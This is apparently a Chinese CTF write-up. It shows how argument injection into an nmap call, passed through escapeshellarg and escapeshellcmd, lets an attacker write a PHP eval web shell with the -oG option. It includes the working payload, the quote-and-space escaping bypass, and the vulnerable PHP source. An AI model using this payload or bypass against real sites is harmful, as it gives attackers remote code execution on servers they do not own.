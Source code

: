 看着像命令注入，在尝试一番后失败了，程序在这里很明显会把所有的特殊字符用 `\` 字符进行转义，所以这里只能回过头来，看一下 nmap 的官方文档

`-iL 从文件中加载IP地址`

我这里的想法是通过这个参数来读取 flag 文件，用于扫描

![noIL](noIL.png)

直接 `-iL` 会报错，但是指定文件呢，又会报错。这里只能得出 nmap 的结果是保存在 XML 中的，也就是 `-oX` 参数，在 fuzz 的过程中也发现 `php` 关键字也不行，有点奇怪不知道为什么会 ban 这个。

其中有一段

```bash
nmap –oG 1.txt –v 192.168.1.1/24			-oG将扫描结果保存为TXT，Ctrl+C中断扫描
```

nmap其他写文件命令：

-oN (标准输出)

-oX (XML输出)

-oS (ScRipT KIdd|3 oUTpuT)

-oG (Grep输出)

-oA (输出至所有格式)

如此一来我们就可以写入 shell 了

```bash
nmap <?php @eval($_POST[1]); ?> -oG a.phtml
```

然而 php 被 ban 了，`<?php ?>` 这里的 php 用短标签代替：`<?= ?>`

所以合理的 payload 应该是

```bash
<?= @eval($_POST[1]); ?> -oG a.phtml
```

但是文件还是没写进去，应为进行了escapeshellarg()与escapeshellcmd()函数处理保护，没法产生文件。可以进行单引号和空格绕过

```php
' <?= @eval($_POST[1]);?> -oG a.phtml '
```

![noIL](write.png)

拿到 shell 之后可以康康源码

```php
<?
require('settings.php');


set_time_limit(0);
if (isset($_POST['host'])):
	if (!defined('WEB_SCANS')) {
        	die('Web scans disabled');
	}

	$host = $_POST['host'];
	if(stripos($host,'php')!==false){
		die("Hacker...");
	}
	$host = escapeshellarg($host);
	$host = escapeshellcmd($host);

	$filename = substr(md5(time() . rand(1, 10)), 0, 5);
	$command = "nmap ". NMAP_ARGS . " -oX " . RESULTS_PATH . $filename . " " . $host;
	$result_scan = shell_exec($command);
	if (is_null($result_scan)) {
		die('Something went wrong');
	} else {
		header('Location: result.php?f=' . $filename);
	}
else:
?>
```

确实没办法直接命令注入，所以最后才使用 nmap 内置的写入 shell 功能。









